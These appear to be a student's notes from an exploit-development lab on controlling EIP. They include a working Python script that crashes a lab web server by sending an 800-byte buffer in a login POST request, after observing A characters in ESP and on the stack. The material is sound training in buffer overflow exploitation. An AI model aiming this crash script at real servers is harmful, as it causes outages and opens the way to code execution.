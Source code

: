 
2.  Inspect the content of other registers and stack memory. Does anything seem to be directly influenced by the fuzzing input?
The ESP register contains "A's" and we can also see the "A" characters on the stack itself.
![[imun_A.png]]


# 11.2.4 Controlling EIP
## Practice - Controlling EIP

_(To be performed on your own Kali and Windows lab client machines - Reporting is required for these exercises)_

1.  Write a standalone script to replicate the crash.
The following python3 script will lead to a crash:
```python
#!/usr/bin/python
import socket

try:
	print("\nAttempting to send buffer...")

	size = 800
	inputbuffer = "A" * size

	content = "username=" + inputbuffer + "&password=A"

	buffer = "POST /login HTTP/1.1\r\n"
	buffer += "Host: 192.168.222.10\r\n"
	buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
	buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
	buffer += "Accept-Language: en-US,en;q=0.5\r\n"
	buffer += "Referer: http://192.168.222.10/login\r\n"
	buffer += "Connection: close\r\n"
	buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
	buffer += "Content-Length: "+str(len(content))+"\r\n"
	buffer += "\r\n"
	  
	buffer += content

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	  
	s.connect(("192.168.222.10", 80))
	encoded = buffer.encode()
	s.send(encoded)
		  
	s.close()

	print("\nSuccess!")

except:
	print("\nCould not connect")
```
